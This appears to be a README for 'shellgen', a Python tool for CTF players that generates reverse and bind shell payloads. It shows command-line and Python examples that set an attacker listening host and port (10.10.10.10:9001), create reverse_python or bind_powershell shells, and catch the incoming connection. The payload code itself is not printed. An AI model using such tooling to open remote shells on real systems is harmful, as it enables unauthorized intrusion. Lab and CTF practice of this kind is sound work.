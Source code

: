 # shellgen
Shell Generator for CTF's

## Terminal Usage

**Listing Shells**

Listing the available shells in the module.

```bash
$ python3 shellgen.py --list-shells
```



![](.img/listshells.png)

**Creating Payload**

Create a Reverse Python payload and set the **lhost** and **lport** values.

```bash
$ python3 shellgen.py -s reverse_python --lhost 10.10.10.10 --lport 9001
```



![](.img/create_payload.png)



**Listening on address**

After creating a payload, the module will help you to listen on the specified address and port, and catch the incoming shell.

```bash
$ python3 shellgen.py -s reverse_python --lhost 10.10.10.10 --lport 9001 --listen
```



![](.img/listen.png)



## Python Usage

Basic usage of the module

```python
import shellgen

# Create a new shellgen object
shell = shellgen()

# Set up connection data
shell.set_lhost('10.10.10.10')
shell.set_lport(9001)

# Generate Shell String
shell_string = shell.generate_shell('reverse_python')

```



Pass arguments to the **generate_shell()** function as kwargs.

```python
import shellgen

# Create a new shellgen object
shell = shellgen()

# Generate Shell String and specify values as kwargs
shell_string = shell.generate_shell('bind_powershell',rhost='192.168.56.56',rport='8080')

# Connect to the remore address
shell.connect()
```



After generated a reverse payload, the module can listen on the specified port and interface address.

```python
import shellgen

# Create a new shellgen object
shell = shellgen()

# Generate Shell String and specify values as kwargs
shell_string = shell.generate_shell('reverse_python',lhost='10.10.10.10',lport='4444')

# Listening on the specified port nad address
shell.listen()
```

